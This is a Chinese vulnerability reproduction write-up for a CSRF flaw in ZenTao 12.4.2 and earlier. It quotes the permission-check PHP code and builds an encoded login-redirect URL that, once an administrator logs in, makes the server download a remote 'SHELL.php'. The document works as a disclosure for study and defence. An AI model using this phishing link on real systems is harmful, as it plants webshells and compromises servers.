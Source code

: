 # 禅道 小于12.4.2 CSRF漏洞

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 影响版本

> [!NOTE]
>
> 禅道 <= 12.4.2版本

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![](禅道-小于12.4.2-CSRF漏洞-CNVD-2020-68552.assets/1627363284820998.jpg)

调用接口查询版本信息

```
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![](禅道-小于12.4.2-CSRF漏洞-CNVD-2020-68552.assets/16273632850247412.jpg)

## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```

![](禅道-小于12.4.2-CSRF漏洞-CNVD-2020-68552.assets/1627363285651059.jpg)

将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

![](禅道-小于12.4.2-CSRF漏洞-CNVD-2020-68552.assets/16273632860003562.jpg)